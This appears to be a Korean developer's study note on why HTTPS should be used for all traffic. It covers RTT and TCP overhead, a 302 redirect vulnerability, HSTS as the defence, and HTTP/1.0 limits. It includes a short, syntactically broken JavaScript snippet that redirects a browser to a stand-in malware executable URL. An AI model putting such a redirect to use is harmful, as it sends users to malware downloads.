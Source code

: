 <br/>

**모든 웹 페이지에서 HTTPS 를 사용하지 않는 이유 (HTTP / 1.1)?**

- 암호화 통신은 CPU 나 메모리 등 리소스가 많이 필요하다.
- 통신할 때마다 암호화를 하면 많은 리소스를 소비하기 때문에 서버 한 대당 처리할 수 있는 리퀘스트의 수가 줄어들게 된다.
- 그렇기 때문에 민감한 정보를 다룰 때만 HTTPS 에 의한 암호화 통신을 사용한다.

많은 사람들은 대용량 파일을 HTTPS로 전송하면 리소스가 많이 들어가고, 서버 부하가 매우 커 HTTPS로 파일에 대한 해시값만 전송하고 HTTP로 파일을 서빙하는 방식을 고려하기도    한다.

**하지만...**

**HTTPS로 해시를 전송하고 HTTP로 파일을 서빙하는 방법**이 **HTTPS 로만 파일을 서빙하는 것보다 비효율적이다.** 

- **서로 다른 프로토콜로 인해 2개의 TCP 연결을 성립시켜야 한다는 부분인데** 이는 HTTPS 로만 서빙하는 것보다 **2배 더 많은 RTT 를 필요로 하고 더불어 TCP overhead 또한 2배  라는 것을 의미한다.**  (**3 way , 4 way** **Handshaking 이 반복된다.**)
    - **RTT :** 작은 패킷이 클라이언트에서 서버로 갔다가, 서버에서 다시 클라이언트로      돌아오는데 걸린 시간 ( **HTTP response time** )
    - 위에서 말한 **서버의 리퀘스트의 수가 줄어들게 된다.** 라는 것은 사실상 소용이 없다.
- **시스템 자원의 발전으로 (CPU 등) 네트워크 대역폭은 CPU의 암호화 속도보다 느리다.**

**HTTP 를 사용해서 서버와 요청, 응답시 서버에서 HTTPS 를 강제한다면, 302 Redirect         취약점이 발생할 수 있다.**

- **다른 주소로 Redirect 하는 부분을 이용하여 악성코드를 받는 URL로 강제 전환이 가능**
- 사용자는 웹 브라우저가 다른 곳으로 **Redirection** 되었다는 것을 인지하지 못함

```jsx
<script language=JavaScript>

Location.href = http://cdn.hack.com/virus.exe;

</script>

//https://blogger.pe.kr/421
```

**이것을 방지하기 위해선 HTTP Strict Transport Security 가 사용되어야 한다.**

- 클라이언트에게 HTTPS를 강제하는 기능으로 Plain Text (HTTP) 요청을 시도하지 못한다.
- 서버 최초접속 시 HSTS 설정에 대한 정보를 브라우저에게 응답하고, 해당 데이터를 기준으로 일정시간 동안 해당 서버에 HTTPS 접속을 강제시킨다.

결국은 **HTTPS 를 사용해야 한다.**

**Google Drive, Dropbox, iCloud, OneDrive, CloudFlare 등 여러 클라우드, CDN 서비스는**    이미 오래 전부터 **작은 파일부터 대용량 파일**까지 **HTTPS를 통해 서빙하고 있으며** 이는       네트워크 대역폭에 빗대어 볼 때 **CPU의 속도는 충분히 빠르다는 것을 증명하는 셈이다.**

<br/>

**HTTP / 1.0**

- HTTP 버전과 헤더와 응답 상태 코드가 생겼다.
- 컨텐츠 타입이 생김으로써 html 외에 다른 타입도 전송할 수 있게 되었다.

**HTTP / 1.0 단점**

- **1개의 커넥션은 1개의 요청만 처리할 수 있다. Short-Lived Connections**
    - **매번 새로운 연결을 통해 성능의 저하가 발생한다. (3, 4 way Handshaking 반복)**
    - 서버 부하 비용이 발생한다.

<br/>
